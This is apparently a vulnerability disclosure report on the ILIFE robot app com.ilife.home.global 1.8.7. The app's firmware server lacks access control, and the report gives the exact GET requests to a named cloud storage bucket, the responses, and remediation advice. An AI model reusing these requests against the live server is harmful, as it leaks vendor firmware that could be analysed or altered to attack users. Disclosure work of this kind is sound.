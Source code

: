 # Vulnerability Report - com.ilife.home.global- Incorrect Access Control

**Product:** `com.ilife.home.global`

**Vendor:** [ILIFE](https://www.iliferobot.com/)

**Version:** 1.8.7

**Vulnerability Type:** Incorrect Access Control

**Severity:** High

## Description

The `com.ilife.home.global` , developed by **ILIFE**, suffers from an Incorrect Access Control vulnerability during the device firmware update process. The app uses HTTPS requests to download firmware updates. By reverse engineering the app, it was possible to identify the firmware download mechanism and the download link. Dynamic testing revealed that the vendor's firmware server lacks proper access control, leading to **firmware leakage**.

## Reproduction Steps

1. The `return` values in the `m5935q, m5934r, m5933s`methods provide the necessary URL and other information required for the HTTPS request. Static reverse engineering allows for the reconstruction of the complete request as follows:

   ![image-20241003194922411](https://s2.loli.net/2024/10/03/YXW1gtnv5cPlbVD.png)

2. Sending this URL request to the firmware server results in a direct response containing the latest firmware information as follows:

   > Request

   ```http
   GET https://voicepacket.oss-cn-shenzhen.aliyuncs.com/voicepacket/eu/1059/1681466137593_200S_en_EN.zip HTTP/1.0
   User-Agent: Fiddler
   Host: voicepacket.oss-cn-shenzhen.aliyuncs.com
   ```

   ```http
   GET https://voicepacket.oss-cn-shenzhen.aliyuncs.com/voicepacket/eu/1059/1672905358863_200S_ja_JA.zip HTTP/1.0
   User-Agent: Fiddler
   Host: voicepacket.oss-cn-shenzhen.aliyuncs.com
   ```

   > Response:

   ```http
   HTTP/1.1 200 OK
   Server: AliyunOSS
   Date: Thu, 03 Oct 2024 11:51:39 GMT
   Content-Type: application/zip
   Content-Length: 1608967
   Connection: close
   x-oss-request-id: 66FE854B57E6163538D763FC
   Accept-Ranges: bytes
   ETag: "FF0DB8DFF50D2685AEFBD7A8E1FF2DF3"
   Last-Modified: Fri, 14 Apr 2023 09:55:37 GMT
   x-oss-object-type: Normal
   x-oss-hash-crc64ecma: 11523379598591970559
   x-oss-storage-class: Standard
   Content-MD5: /w243/UNJoWu+9eo4f8t8w==
   x-oss-server-time: 42
   
   PK        V               
   ......
   ```

   ```http
   HTTP/1.1 200 OK
   Server: AliyunOSS
   Date: Thu, 03 Oct 2024 11:52:33 GMT
   Content-Type: application/x-zip-compressed
   Content-Length: 2455559
   Connection: close
   x-oss-request-id: 66FE85813C8E2938387240CB
   Accept-Ranges: bytes
   ETag: "24938158F0C1293365AF32171ABC6EA4"
   Last-Modified: Thu, 05 Jan 2023 07:56:13 GMT
   x-oss-object-type: Normal
   x-oss-hash-crc64ecma: 2568797236492734421
   x-oss-storage-class: Standard
   Content-MD5: JJOBWPDBKTNlrzIXGrxupA==
   x-oss-server-time: 58
   
   PK      wUqQO I   @       2_9.mp3   [ i 8  YDDECECsDS 
   ......
   ```

3. Consequently, the unprotected firmware can be directly downloaded using this information.

   ![image-20241003195322615](https://s2.loli.net/2024/10/03/ANSP2UKxg5DhrtB.png)

   In total, we successfully downloaded **13 firmware** by exploiting the vulnerability.

## Impact

An attacker can exploit this vulnerability to:

- Download the latest firmware before it is officially released.
- Analyze the firmware for vulnerabilities or proprietary information.
- Create modified firmware images with malicious code.
- Distribute compromised firmware updates to unsuspecting users.

## Remediation

- Implement proper access control on the firmware server, such as device ID and user ID verification.
- Enhance the app's firmware update mechanism to include authentication credentials in the requests.

## Disclaimer

This vulnerability report is provided for informational purposes only and should not be used for any malicious activities. The author is not responsible for any misuse of the information contained herein.